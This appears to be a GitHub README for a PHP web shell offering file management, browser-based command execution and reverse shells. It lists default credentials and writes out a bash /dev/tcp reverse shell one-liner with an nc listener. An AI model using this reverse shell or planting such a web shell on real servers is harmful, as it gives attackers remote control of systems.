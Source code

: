 # Yavuzlar WebShell - Web-based Shell for Cybersecurity

![Yavuzlar WebShell](https://r00t-shell.com/wp-content/uploads/2025/03/yavuzshell.gif)

## 🚀 What is Yavuzlar WebShell? 🤔

Yavuzlar WebShell is a web-based shell application that allows you to manage server files, execute terminal commands, and use reverse shells—all from the comfort of your browser. It was built using **PHP** and **CSS** with a minimalist interface designed for remote administration and cybersecurity simulations.

---

## 🔑 Key Features

- **File Manager 📁**: Easily upload, edit, delete, and download files securely over the web.
- **Terminal 🖥️**: Execute system commands through a browser-based terminal.
- **Reverse Shell 🔄**: Use reverse shell techniques for remote system control.
- **Directory Navigation 📂**: Navigate directories and manage file permissions effortlessly.
- **Security 🔒**: Requires user login for all operations, ensuring secure access.

---

## 🚀 Getting Started

### 📥 Installation

1. Clone the repository:
   ```sh
   git clone https://github.com/RootShelll/Yavuzlar-WebShell.git
   ```
2. Upload the files to your web server.
3. Ensure PHP is installed and configured properly on your server.
4. Open the WebShell in your browser.

### 🔑 Default Login Credentials

```plaintext
Username: admin
Password: R00t
```

> ⚠️ **Important Note:**
> Make sure your server is properly secured, and only authorized users have access to the WebShell.

---

## 🔧 Advanced Usage

If you're familiar with command-line tools, you can enhance your experience by using the terminal feature to run various system commands. For example:

```sh
ls -la  # List all files in the current directory
```

```sh
cat filename.txt  # Display the content of a text file
```

### 🔄 Reverse Shell Operations

Use the following commands to establish a reverse shell connection:

```sh
nc -lvp 4444  # Listen on port 4444 for incoming connections
```

```sh
bash -i >& /dev/tcp/your_ip/4444 0>&1  # Reverse shell with bash
```

---

## 📜 License

This project is licensed under the **MIT License** - see the [LICENSE](LICENSE) file for details.

## 📬 Contact

For support, open an issue or reach out via email: **help@r00t-shell.com**
